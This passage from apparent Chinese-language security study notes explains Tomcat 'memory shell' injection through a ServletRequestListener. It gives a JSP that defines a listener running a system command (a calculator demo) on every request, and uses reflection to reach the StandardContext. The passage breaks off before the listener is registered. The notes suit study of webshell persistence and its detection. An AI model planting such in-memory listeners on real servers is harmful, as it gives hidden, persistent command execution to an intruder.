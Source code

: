     </html>
    ```

### 1.3 Listener 内存马

1. Listener 更简单，它没什么要特别设置的，但是 Listener 触发需要一定的事件。因此要选择易触发的 Listener，这里就选 `ServletRequestListener`。每次访问系统都会创建 `HttpServletRequest` 对象，从而触发 `ServletRequestListener` 中的方法。

2. 代码如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebListener" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/5
      Time: 19:40
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
        @WebListener("MemoryTrojanListener")
        public class MemoryTrojanListener implements ServletRequestListener {
    
            @Override
            public void requestDestroyed(ServletRequestEvent sre) {
    
            }
    
            @Override
            public void requestInitialized(ServletRequestEvent sre) {
                try {
                    Runtime.getRuntime().exec("calc");
                } catch (IOException e) {
                    throw new RuntimeException(e);
                }
            }
        }
    %>
    <%
        // 1. 获取 StandardContext
        ServletContext servletContext = request.getServletContext();
        // ServletContext 中有 ApplicationContext，ApplicationContext 中又有 StandardContext。通过反射获取到 ApplicationContextField。
        Field applicationContextField = servletContext.getClass().getDeclaredField("context");
        applicationContextField.setAccessible(true);
        // 通过反射拿到 servletContext 具体的 ApplicationContext
        ApplicationContext applicationContext = (ApplicationContext) applicationContextField.get(servletContext);
        // 重复上述过程，从具体的 ApplicationContext 中拿到具体的 StandardContext
        Field standardContextField = applicationContext.getClass().getDeclaredField("context");
        standardContextField.setAccessible(true);
        StandardContext standardContext = (StandardContext) standardContextField.get(applicationContext);
    
